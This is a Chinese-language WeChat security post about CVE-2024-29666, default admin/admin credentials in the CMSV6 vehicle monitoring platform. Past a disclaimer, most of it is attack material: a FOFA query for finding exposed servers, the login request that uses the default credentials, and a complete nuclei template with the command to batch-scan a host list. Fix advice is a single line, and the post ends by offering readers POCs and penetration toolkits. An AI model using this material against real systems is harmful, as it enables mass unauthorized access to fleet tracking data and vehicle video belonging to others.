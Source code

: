 #  CVE-2024-29666   
原创 fgz  AI与网安   2024-03-29 07:23  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
CMSV6车辆监控平台系统中存在弱密码漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
CMSV6 7.31.0.2、7.32.0.3  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BN7DlicKbLicGKAtXcYyORuibeXMYMfVyIU5yNH1IKQDFaiaCx9la7icgYMia5IxbatGec7DIwcSpFleoKw/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
CMSV6平台是基于车辆位置信息服务和实时视频传输服务的创新技术和开放运营理念。为GPS运营商车辆硬件设备制造商、车队管理企业等车辆运营相关企业提供核心基础数据服务。该系统  
  
CMSV6 7.31.0.2、7.32.0.3版本中存在弱密码漏洞。用户名：admin 密码：admin  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
body="/808gps/"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BN7DlicKbLicGKAtXcYyORuibeqmYBrIy1XmwmDVN202sY2n279dexXjsbc74zZ6P17Ta5ydw185292A/640?wx_fmt=png&from=appmsg "")  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
手工使用admin/admin直接登录即可  
```
http://x.x.x.x/808gps/login.html
```  
  
程序请求如下地址，返回值中包含admin即为成功  
```
http://xxx/StandardApiAction_login.action?account=admin&password=admin
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BN7DlicKbLicGKAtXcYyORuibexW5IlUVvoaFMnRgMOFlC3kzszKhXpia42m6lQwcamaYDbwObciaQsicuA/640?wx_fmt=png&from=appmsg "")  
  
  
06  
  
—  
  
批量扫描 poc  
  
  
nuclei poc文件内容如下  
```
id: CVE-2024-29666

info:
  name: CMSV6车辆监控平台系统中存在弱密码漏洞
  author: fgz
  severity: high
  description: CMSV6平台是基于车辆位置信息服务和实时视频传输服务的创新技术和开放运营理念。为GPS运营商车辆硬件设备制造商、车队管理企业等车辆运营相关企业提供核心基础数据服务。该系统CMSV6 7.31.0.2、7.32.0.3版本中存在弱密码漏洞。用户名：admin 密码：admin
  tags: cve-2024,cve
  metadata:
    max-request: 1
    fofa-query: body="/808gps/"
    verified: true

http:
  - method: GET
    path:
      - "{{BaseURL}}/StandardApiAction_login.action?account=admin&password=admin"
    headers:
      Accept-Encoding: gzip, deflate
      Accept-Language: en
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, 'admin')"
```  
  
运行POC  
```
nuclei.exe -t mypoc/cve/CVE-2024-29666.yaml -l data/1.txt
```  
  
  
  
07  
  
—  
  
修复建议  
  
  
建议您更新当前系统或软件至最新版，完成漏洞的修复。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
